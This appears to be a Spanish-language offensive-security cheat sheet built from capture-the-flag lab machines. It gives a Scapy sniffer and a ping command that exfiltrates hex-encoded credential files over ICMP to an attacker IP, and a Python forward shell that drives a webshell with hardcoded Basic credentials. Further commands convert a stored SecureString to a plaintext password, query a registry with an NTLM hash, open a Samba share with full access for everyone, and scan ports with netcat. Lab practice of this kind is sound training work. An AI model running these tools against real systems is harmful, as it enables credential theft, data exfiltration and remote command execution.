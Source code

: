 # EXTRA

## Exfiltración de datos por ICMP

### Sniffer

```python
#!/usr/bin/python3

from scapy.all import *
import sys, signal

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
interface = 'tun0'

def data_parser(packet):
    if packet.haslayer(ICMP):
        if packet[ICMP].type == 8:
            data = packet[ICMP].load[-4:].decode("utf-8")
            print(data, flush=True, end='')
    

if __name__ == '__main__': # xxd -p -c 4 /etc/hosts | while read i; do echo $i | xxd -ps -r; done

    sniff(iface=interface, prn=data_parser)
```

### Comando a ejecutar

```null
command=xxd -p -c 4 /home/loki/cred* | while read i; do ping -c 1 -p $i 10.10.16.2; done
```

## Obtención ACLs

```null
loki@Mischief:~$ getfacl /bin/su 
getfacl: Removing leading '/' from absolute path names
# file: bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x
```

## Compartir recurso SAMBA

```null
service smbd start
```

```null
net usershare add shared $(pwd) '' 'Everyone:F' 'guest_ok=y'
```

## Uso de authbind

En caso de no disponer el privilegio para abrir ciertos puertos, se puede utilizar este comando si hay una regla establecida

```null
atanas@kotarak-dmz:/etc/authbind/byport$ authbind python3 -m http.server 80
```

## Forward Shell Python

```python
from base64 import b64encode
from random import randrange
import requests, sys, pdb, signal

def def_handler(sig, frame):
    print("\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.67/webdav_test_inception/cmd.php?cmd="
session = randrange(1, 9999)
stdin = "/dev/shm/strin.%s" % session
stdout = "/dev/shm/stdout.%s" % session

def RunCmd(command):

    headers = {
        'Authorization': 'Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5'
    }

    command = b64encode(command.encode()).decode()

    post_data = {
        'cmd': 'echo %s | base64 -d | bash' % command
    }

    r = requests.post(main_url, data=post_data, headers=headers, timeout=2)

    return r.text


def WriteCmd(command):

    headers = {
        'Authorization': 'Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5'
    }

    command = b64encode(command.encode()).decode()

    post_data = {
        'cmd': 'echo %s | base64 -d > %s' % (command, stdin)
    }

    r = requests.post(main_url, data=post_data, headers=headers, timeout=2)

    return r.text

def ReadCmd(command):

    ReadOutput = """/bin/cat %s""" % stdout

    response = RunCmd(ReadOutput)

    return response

def SetupShell():
    NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)

    try:
        RunCmd(NamedPipes)
    except:
        None
    
    return None

SetupShell()

if __name__ == '__main__':

    while True:
        command = input("> ")
        
        WriteCmd(command + "\n")
        response = ReadCmd(command)
        print(response)

        ClearOutput = """echo '' > %s """ % stdout
        RunCmd(ClearOutput)
```

## Solución Java 11 / 16 Error incompatibilidad

```null
update-alternatives --config java
```

## Captura de pantalla Windows

```null
PS C:\Windows\System32\spool\drivers\color> .\nircmd.exe savescreenshot captura.png
```

## Convertir SecureString a texto plano

```null
C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.getNetworkCredential() | Format-List *"
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.getNetworkCredential() | Format-List *"


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

## Conversión archivo a base64 Windows

```null
PS C:\Users\k.svensson\AppData\Roaming\stickynotes\Local Storage\leveldb> [convert]::ToBase64String((Get-Content -path "000003.log" -Encoding byte))
```

## Enumeración de registros

```null
reg.py htb.local/henry.vinson@APT -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKU
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
HKU
HKU\Console
HKU\Control Panel
HKU\Environment
HKU\Keyboard Layout
HKU\Network
HKU\Software
HKU\System
HKU\Volatile Environment
```

## Listar ACLs a través de montura CIFS

```null
smbcacls "//10.10.10.103/Department Shares" Users
```

## Simple Formulario HTML para subida de archivos

```null
<form action="test.php" method="post" enctype="multipart/form-data" target="_blank">
  <p>
    <input type="file" name="upload">
    <input type="submit" value="upload">
  </p>
</form>
```

## Port Discovery

## Con netcat

```null
for port in $(seq 1 65535); do nc 172.17.0.1 $port -zv; done
```

